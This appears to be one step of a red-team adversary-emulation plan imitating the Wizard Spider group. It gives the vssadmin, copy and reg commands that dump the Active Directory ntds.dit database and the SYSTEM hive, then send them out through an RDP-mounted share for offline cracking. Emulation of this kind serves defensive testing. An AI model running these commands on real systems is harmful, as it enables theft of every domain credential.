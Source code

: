 :microphone: `Voice Track:`

During step 8, Wizard Spider creates a volume shadow copy in order to collect the active directory database (ntds.dit).

Wizard Spider uses vssadmin to create the shadow copy.

Wizard Spider exfiltrates the shadow copy files using an RDP-mounted network share.

--- 

### :biohazard: Procedures

:warning: Spawn a **CMD** shell within your PowerShell window:

```bash
cmd.exe
```

```bash
cls
```

```bash
# Wizard Spider has gained access to credentials via exported copies of the ntds.dit Active Directory database.[3]

vssadmin.exe create shadow /for=C:
```

You will get output resembling the following:

```
vssadmin output:
    Shadow Copy ID: {cb0a1e0b-e4d7-44f4-aacb-daed56db01ce}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

:warning: Make sure the `\\\\?\GLOBALROOT...HarddiskVolumeShadowCopy1` path matches your output!

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit
```

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE
```

```
reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE
```

Notionally, Wizard Spider carves credentials offline from ntds.dit using tools like Impacket's secretsdump.py

### :microscope: Cited Intelligence

* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
